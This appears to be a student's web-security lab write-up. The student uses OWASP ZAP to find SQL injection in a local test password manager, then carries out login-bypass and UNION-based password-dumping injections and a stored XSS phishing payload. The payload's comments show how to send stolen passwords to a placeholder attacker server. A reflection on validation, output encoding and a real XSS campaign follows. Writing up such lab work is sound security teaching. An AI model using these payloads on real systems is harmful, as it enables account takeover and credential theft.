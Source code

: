 # W7 | Injection & XSS Testing

## Introduction  
Web applications live and die by how they handle user input—and in this lab, you’ll discover what happens when that input isn’t properly validated.

We’ll test two of most common web vulnerabilities:
- **SQL Injection** which targets the database layer by manipulating queries
- **Cross-Site Scripting (XSS)** which injects malicious scripts into web pages

Using **OWASP ZAP** we’ll scan the app to find vulnerabilities then manually craft input to exploit them—altering data, injecting scripts, demonstrating risks of insecure input handling.

- Use **ZAP** to identify injection vulnerabilities
- Perform real SQLi and XSS attacks on a test system
- Learn how to prevent them through validation and sanitization

By the end, we’ll understand why **input handling** is one of the most critical aspects of web security and how to defend against these attacks in the wild.

## Steps
1. Download ZAP, enable configurations in computer settings to open. 
2. Select “Automated Scan”, enter password manager url https://localhost to begin attack.
3. In the top menu set view to “Reponses” and “Alerts” and let system run for 10 minutes.
4. Once a high alert (red flag) “SQL Injection” vulnerability is found, study the report to see which type of SQL injection can be used for the username in the login page.
**Log in as Admin without using their password**

6. Use the query ' and 0 in (select sleep(15) ) – and random password to bypass the login page.
7. Explore pages, and logout.
8. Login as the Admin without a password using a similar approach. Admin’ --#
9. Logout, login as “Username” with proper credentials.

**Find a way to retrieve all VAULT passwords from database**

9. Navigate to Vaults page.
10. In the search field input the following injection: ‘UNION SELECT username, password FROM vault_passwords-- -
11. Press enter to see all vault passwords load.

**Create false pop-up asking victim for confidential info whenever they access a vault**

12. Reload page to clear the search field.
13. Navigate to a vault, click on “Edit password”.
14. In the “Notes” field paste the JS payload that will create a fake popup asking for sensitive information.
<script>
    var phishing_prompt = prompt("Security Alert: For your protection, please re-enter your VAULT password.");
    if (phishing_prompt) {
        // In a real scenario, you would send 'phishing_prompt' to an attacker-controlled server.
        // For demonstration, we'll just show an alert with the entered data.
        alert("Captured data (for demo): " + phishing_prompt + "\n(In a real attack, this would be sent to the attacker.)");

        // To send it to an attacker server (similar to Task 2):
        // var attacker_server_url = 'https://YOUR_ATTACKER_SERVER_URL/log_phish'; 
        // new Image().src = attacker_server_url + '?phished_data=' + encodeURIComponent(phishing_prompt);
    }
</script>
15. Click “Update Password” to save and have a partner navigate to the vault to edit details. 
16. Tne JS embedded in the “Notes” field will popup automatically, asking for their vault password. 
17. If they enter information an alert box will show the captured data.
<img width="80%" alt="image" src="https://github.com/user-attachments/assets/2b061cdf-d198-415e-a295-abf95a67a42b" />

*Retrieving all Vault passwords with SQLi*

<img width="100%" alt="image" src="https://github.com/user-attachments/assets/245ba557-bca0-4a70-a03c-d3c54cc1cb49" />

*Malicious payload and popup asking user for crential information*

## Reflection
These attacks occurred due to improper input validation and output encoding. The **application is vulnerable** to SQL injection because user input like usernames and passwords (login.php), data added to vaults (vault_details.php) is **directly linked to SQL queries without being properly sanitized or parameterized**. The application treats user input as part of executable SQL code, allowing attackers to **inject malicious commands to alter the database**. Although it didn’t explicitly show in the ZAP alert log, in theory this application is also vulnerable to XSS shown by the pop up attack, where user given data is stored in the database without proper sanitization. When this stored data is later retrieved and displayed in the browser it fails to run adequate output encoding. The browser interprets the malicious embedded JS as executable code and runs the script.

The concepts that relate most to this lab are: **input validation, output encoding, POLP, defense in depth**. Input validation emphasizes that all user input should be validated and sanitized at the point of entry to ensure it obeys the expected formats, yet both SQL injection and XSS fail to implement robust input validation. Applying **Zero Trust, “never trust, always identify”**, data from untrusted sources(user inputs) should be properly encoded to confirm injected scripts are treated as data not active code. POLP decreases the attack surface by granting minimum access needed to perform tasks. This relates to when the Admin login was bypassed with queries, granting excessive privileges. Another way to **harden the password application is to implement multiple security controls**. If input validation fails, output coding could have served as a secondary defence against XSS.

**FancyBear**, a state sponsored Russian spy hacker group, was found targeting Ukraine related organizations since 2023 by **exploiting cross site scripting in vulnerable webmail servers(Roundcube). The attack injects malicious JS payloads into email messages**, so when victims like government entities open them the hidden JS executes. This allows attackers to steal confidential information(contacts, email content) leading to data theft and spying through client side code injection.
A similar XSS attack can be done on the password application by exploiting the stored XSS vulnerability in the vault details functionality. The vault_details.php file is susceptible because it directly stores user supplied input (Notes field) into the database without proper sanitization, and renders the content back into the user’s browser without output encoding. Like demonstrated above an attacker could inject a malicious JS payload into the password editor Notes field. When another user views that vault entry the injected script would execute in their browser, mirroring FancyBear’s method. This script could be used to capture the victim's session cookies (session hijacking) or extract sensitive information displayed to transmit it to an attacker server with the user unaware. This shows how unvalidated input and lack of output encoding can transform a harmless text box into a powerful attack point for extracting data and compromising accounts.

<img width="50%" alt="image" src="https://github.com/user-attachments/assets/3f0ebd2c-271e-4eb8-b2e7-468f639a6d06" />
